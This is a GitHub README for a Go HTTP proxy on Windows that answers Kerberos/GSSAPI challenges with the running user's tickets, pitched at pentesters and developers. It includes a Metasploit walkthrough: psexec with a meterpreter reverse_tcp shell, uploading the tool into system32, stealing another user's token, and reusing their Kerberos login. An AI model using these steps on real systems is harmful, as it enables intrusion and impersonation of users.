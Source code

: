 Gssapi-proxy
============

Simple http proxy for Windows. Uses running user's kerberos login to respond to kerberos/GSSAPI challenges (401/Www-Authenticate) on behalf of the client. Potentially useful for pentesting, and developers working with kerberos/GSSAPI. Implemented in Go, using SSPI. Highly extensible.

Tested on Windows 8.1 (32-bit), with Heimdal KDC and MIT's implementation of GSSAPI libraries at the other end. Should run on Windows 2000+, and might fall back to NTLM if building kerberos context fails.

Building
--------

The following command should build the application. It is a little bit large, but it should not require any dependencies from target the systems.

```
go build src\gssapi-proxy.go
```

Metasploit example
------------------

The following example exploits an other user, and runs the proxy remotely.

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhost x.x.x.x
set smbdomain localdomain
set smbuser user
set smbpass password
exploit
# ... elevate to Administrator / SYSTEM
upload gssapi-proxy.exe /windows/system32/gssapi-proxy.exe
# Pick process that belongs to the user that has valid kerberos tickets!
ps
steal_token PID 
getuid
# Should show correct user
shell
cd /windows/system32/
gssapi-proxy.exe
# Should work, connect your browser to the proxy
# ....
# Reverse back to admin/system when you are done
rev2self
```

Notes
-----

* You must run the application as user that has valid kerberos login and tickets. Although they can later be stolen (at least WCE 1.2+ can do that) and moved to other computers, they can not initially be generated without authenticating against KDC.
* Only the most common flags are set when generating tokens. For instance delegation (ISC_REQ_DELEGATE) is not allowed for kerberos keys by default. Please see SSPI [documentation](http://msdn.microsoft.com/en-us/library/Windows/desktop/aa375509(v=vs.85).aspx) for more information if you run into problems.
* Does not reply to mutual authentication request, but it's probably somewhat rare to bump into with web applications.
* 64-bit platforms should still offer 32-bit compatible library/API so the application should compile and work. There's afaik no reason why the application should be 64-bit.
* The application does not add proxy headers, or manipulate any other headers besides Www-Authenticate/Authorization intentionally.
